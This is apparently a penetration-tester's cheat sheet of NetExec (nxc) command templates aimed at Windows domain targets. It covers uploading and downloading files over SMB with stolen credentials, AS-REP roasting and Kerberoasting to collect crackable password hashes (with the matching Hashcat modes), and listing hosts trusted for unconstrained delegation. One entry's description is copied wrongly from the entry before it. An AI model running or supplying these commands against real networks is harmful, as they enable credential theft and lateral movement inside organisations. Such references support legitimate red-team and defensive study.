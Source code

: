 ## nxc - put file
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/FILE_TRANSFERT 
Send a local file to the remote target

```bash
nxc smb <ip> -u <user> -p <password> --put-file <local_file> <remote_path|\\Windows\\Temp\\target.txt>
```

## nxc - get file
#platform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/FILE_TRANSFERT 
Send a local file to the remote target

```bash
nxc smb <ip> -u <user> -p <password> --get-file <remote_path|\\Windows\\Temp\\target.txt> <local_file>
```

## nxc - ASREPRoast enum without authentication
#platform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

User can be a wordlist too (user.txt)
Hashcat format  -m 18200 

```bash
nxc ldap <ip> -u <user> -p '' --asreproast ASREProastables.txt --kdcHost <dc_ip>
```

## nxc - ASREPRoast enum with authentication
#platform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON  

Hashcat format  -m 18200 

```bash
nxc ldap <ip> -u <user> -p '<password>' --asreproast ASREProastables.txt --kdcHost <dc_ip>
```

## nxc - Kerberoasting
#platform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

Hashcat format  -m 13100

```bash
nxc ldap <ip> -u <user> -p '<password>' --kerberoasting kerberoastables.txt --kdcHost <dc_ip>
```

## nxc - Unconstrained delegation
#platform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

List of all computers et users with the flag TRUSTED_FOR_DELEGATION

```bash
nxc ldap <ip> -u <user> -p '<password>' --trusted-for-delegation
```
